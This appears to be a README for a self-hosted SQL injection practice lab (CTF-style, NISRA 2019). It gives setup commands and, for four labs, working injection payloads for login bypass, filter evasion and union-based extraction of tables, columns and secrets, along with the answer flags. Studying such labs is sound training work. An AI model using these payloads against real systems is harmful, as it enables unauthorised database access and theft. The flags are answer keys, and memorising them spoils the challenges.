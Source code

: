 # SQLi Labs

* deps
	* https://hub.docker.com/r/richarvey/nginx-php-fpm/dockerfile
	* https://hub.docker.com/_/mysql

## Setup

```
# Start
$ docker-compose up -d
# Shutdown
$ docker-compose down
```

## Notes
* TODOs
	1. show the log file

* Checks
	* perms
	* flags
	* uninteded solution

## Labs

All flag should be format by `NISRA{<secret>_<md5 of secret + "roy@NISRA2019">}`

```
echo "<secret>_roy@NISRA2019" | md5sum
```

### lab1
* solution
```
' or 1=1 and user='admin' -- 
```
```
' or 1=1 limit 2,1 -- 
```

* description
```
Login as `admin` please

http://lab.roy4801.tw:8888
```

* flag: `NISRA{51mpl3_or_1=1_83617342bbda7839270d030ec62e5e06}`

### lab2

sanitize `--` and ` `

```
'/**/or/**/1=1/**/and/**/user='admin'/**/#
```

* description
```
No more spaces or dashes

http://lab.roy4801.tw:8889
```

* flag: `NISRA{Add_some_sanitizations_11e23f8478895eccbf9b4bc442c2ac9d}`

### lab3

sanitize `and` and `or`

```
'/**/||/**/1=1/**/&&/**/user='admin'#
```

* description
```
How dare you insert logic?

http://lab.roy4801.tw:8890
```
* flag: `NISRA{more_sanitizations_8acdb485dee808b6032a827c9b5da629}`

### lab4

union based simple

* TODOs
	* logo
	* intros
	* about

* solution
```
# detect num of columns
select=1 or 1=1 limit 0 union select 1,2,3,4,5,6,7,8,9,10,11

-1 union select ...

# list tables
select=1 or 1=1 limit 9,1 union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),3,4,5,6,7,8,9,10,11

# list columns
select=1 or 1=1 limit 9,1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name='lovelive'),3,4,5,6,7,8,9,10,11

# excract flag
select=1 or 1=1 limit 9,1 union select 1,(select group_concat(flag) from lovelive),3,4,5,6,7,8,9,10,11
```

* description
```
video of LL final live
```

* flag
```
NISRA{Honoka_wa_saiko_daze_51c4dde79082d2ef61023476effbb20b}
```
